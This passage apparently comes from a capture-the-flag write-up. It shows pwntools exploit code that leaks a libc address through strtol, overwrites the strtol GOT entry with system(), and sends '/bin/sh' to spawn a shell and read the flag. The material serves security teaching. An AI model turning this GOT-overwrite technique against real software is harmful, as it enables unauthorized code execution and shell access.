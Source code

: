 ```py
add_listing_beta_insert(b'', p8(libc.sym['strtol'] & 0xff)) # fix to send input and keep strtol address unaltered

add_listing_beta_preview()
ru(b'Description: ')
strtol_leak = rl(keepends=False)
strtol_leak = u64(strtol_leak + bytes(8-len(strtol_leak)))
libc.address = strtol_leak - libc.sym['strtol']
log.info(f'{libc.address = :x}')

# now overwrite strtol@got entry with libc's system()
add_listing_beta_insert(b'', p64(libc.sym['system']))

# now the add listing BETA interaction menu asks for user input for the menu option to pick and the input is passed to strtol which is now system
sla(b'> ', b'/bin/sh')
```

A `/bin/sh` shell should be popped, now just read the flag with `cat flag.txt` :)

![shell popped](writeup/img12.png "shell popped")


### Solution script

<details><summary>Full Solution Script</summary></details>
